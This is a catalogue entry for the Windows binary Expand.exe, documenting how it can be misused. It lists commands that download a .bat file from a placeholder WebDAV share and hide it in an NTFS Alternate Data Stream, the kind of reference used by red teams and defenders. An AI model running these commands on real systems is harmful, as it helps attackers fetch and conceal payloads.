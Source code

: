 ---
Name: Expand.exe
Description: Download, Copy, Add ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.bat
    Description: 'Copies source file to destination.'
  - Command: expand c:\ADS\file1.bat c:\ADS\file2.bat
    Description: 'Copies source file to destination.'
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
    Description: 'Copies source file to destination Alternate Data Stream (ADS).'
Full Path:
  - c:\windows\system32\Expand.exe
  - c:\windows\sysWOW64\Expand.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/infosecn1nja/status/986628482858807297
  - https://twitter.com/Oddvarmoe/status/986709068759949319
Notes: Thanks to Rahmat Nurfauzi - @infosecn1nja, Oddvar Moe - @oddvarmoe


